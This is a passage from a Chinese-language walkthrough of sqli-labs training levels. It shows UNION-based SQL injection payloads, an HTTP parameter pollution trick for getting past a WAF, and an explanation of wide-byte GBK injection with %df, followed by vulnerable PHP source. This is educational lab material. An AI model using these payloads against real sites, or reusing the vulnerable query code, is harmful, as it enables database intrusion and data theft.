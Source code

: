 **显示的是id=2的内容 但是waf检测的是前面id=1的内容**

![image-20201111153638489](https://raw.githubusercontent.com/heriachen/cloudimg/main/img/image-20201111153638489.png)

```
?id=1&id=-1' union select 1,2,database() --+
```

![image-20201111153546513](https://raw.githubusercontent.com/heriachen/cloudimg/main/img/image-20201111153546513.png)



## 0X22Less-30

跟上题差不多，只不过双引号闭合。

```
?id=1&id=" union select 1,database(),3 --+
```



## 0X23Less-31

闭合添加括号，其余相同

![image-20201111154315073](https://raw.githubusercontent.com/heriachen/cloudimg/main/img/image-20201111154315073.png)



## 0X24Less-32

介绍一下宽字节注入的原理和基本用法。

原理：mysql在使用GBK编码的时候，会认为两个字符为一个汉字，例如%aa%5c就是一个汉字（前一个ascii码大于128才能到汉字的范围）。我们在过滤 ' 的时候，往往利用的思路是将 ' 转换为 \' （转换的函数或者思路会在每一关遇到的时候介绍）。

因此我们在此想办法将 ' 前面添加的 \ 除掉，一般有两种思路：

1. %df吃掉 \ 具体的原因是urlencode(\') = %5c%27，我们在%5c%27前面添加%df，形成%df%5c%27，而上面提到的mysql在GBK编码方式的时候会将两个字节当做一个汉字，此事%df%5c就是一个汉字，%27则作为一个单独的符号在外面，同时也就达到了我们的目的。
2. 将 \' 中的 \ 过滤掉，例如可以构造 %**%5c%5c%27的情况，后面的%5c会被前面的%5c给注释掉。这也是bypass的一种方法。

添加单引号 看到被转义，考虑宽字节注入

![image-20201111155516862](https://raw.githubusercontent.com/heriachen/cloudimg/main/img/image-20201111155516862.png)

?id=-1%df' union select 1,database(),3--+   payload 在引号前添加%df即可

![image-20201111160021292](https://raw.githubusercontent.com/heriachen/cloudimg/main/img/image-20201111160021292.png)



## 0X25Less-33

```
function check_addslashes($string)
{
    $string= addslashes($string);    
    return $string;
}

$id=check_addslashes($_GET['id']);
mysql_query("SET NAMES gbk");
$sql="SELECT * FROM users WHERE id='$id' LIMIT 0,1";
print_r(mysql_error());
```
